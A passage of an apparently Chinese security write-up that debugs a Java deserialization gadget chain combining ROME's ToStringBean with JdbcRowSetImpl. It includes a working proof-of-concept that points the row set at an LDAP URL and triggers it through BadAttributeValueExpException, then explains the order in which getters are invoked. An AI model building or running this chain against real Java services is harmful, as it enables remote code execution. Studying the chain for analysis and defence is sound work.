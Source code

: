 回到 Rome，真的有可能走到我们想要的 getter 而不报错吗？调试一下 Rome 结合 JdbcRowSetImpl 的利用代码

```bash
public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:10990";
        jdbcRowset.setDataSourceName(url);

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowset);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
```

在`getDatabaseMetaData()`处下一个断点，得到调用栈[![](assets/1701606907-8fb021f69986e71ddf4f5b570cdab6c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210233-6f9d6318-6ced-1.png)

在 ToStringBean#toString(String):137`Object value = pReadMethod.invoke(_obj,NO_PARAMS);` 处下个断点，观察`pReadMethod`

*   getQueryTimeout
*   getEscapeProcessing
*   getMaxFieldSize
*   **getDatabaseMetaData()**
*   .............

这个顺序又是怎么决定的呢，中间的过程很无聊，我就不详细说明了，感兴趣的师傅可以自己去调试一下，也没有多复杂

总之最终的调用顺序是按照一个`HashMap`转换而成的`Descriptor`（当成 List 就行）来的，而我们都知道 HashMap 是根据**键的哈希值**来确定存储顺序的（相当于随机了）
